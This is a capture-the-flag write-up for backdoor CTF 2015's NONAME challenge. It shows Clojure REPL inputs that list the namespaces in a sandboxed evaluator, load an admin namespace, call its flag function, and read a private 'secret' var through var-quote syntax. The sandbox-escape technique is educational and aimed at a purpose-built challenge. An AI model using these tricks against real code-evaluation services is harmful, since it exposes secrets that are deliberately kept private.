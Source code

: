 # backdoor CTF 2015: [NONAME](https://backdoor.sdslabs.co/challenges/NONAME)

**Category:** Exploit
**Points:** 200
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:**
**Solves:** 25
**Description:** 

* <https://backdoor.sdslabs.co/challenges/NONAME>

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained.

## Write-up

We are given a Clojure sandbox and have to find the flag and secret of an user named admin.

Entering valid clojure code, we can execute several functions, e.g. printing the version:

```clojure
Give me some code:
> (clojure-version)
"1.4.0"
```

After learning about clojure, we first print the complete [namespace](http://clojure.org/namespaces) to find any suspicious imported functions or namespaces using the [all-ns](http://clojure.github.io/clojure/clojure.core-api.html#clojure.core/all-ns) function:

```clojure
> (all-ns)
[..see all-ns file..]
```

We see a namespace named `noname.people.admin`, so we try to find any variables within this namespace after importing this namespace:

```clojure
> (require '[noname.people.admin :as adm])
nil
> (adm/flag)
Ma flag is : [REDACTED]
> (adm/secret)
java.lang.IllegalStateException: var: #'noname.people.admin/secret is not public
```

Mhh, we can access the variable flag, but can't access secret. Secret must be private. Fortunately, there is a way to read private variables described [here](http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions):

```clojure
> (#'adm/secret)
"Ma secret is: [REDACTED]"
```

We concat these two strings and make a sha256 hash out of them and get the flag!

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-noname-writeup/>
* <https://babyphd.net/2015/04/backdoorctf-writeup/>
* [Indonesian](https://docs.google.com/document/d/1O6TLRT0Vvyd5YT_GBlHvrCuhuGM_E_CJXXitNsdNbaw/edit)
* [Indonesian](https://khoadungit.wordpress.com/2015/04/14/backdoor-ctf-2015-noname-writeup/)

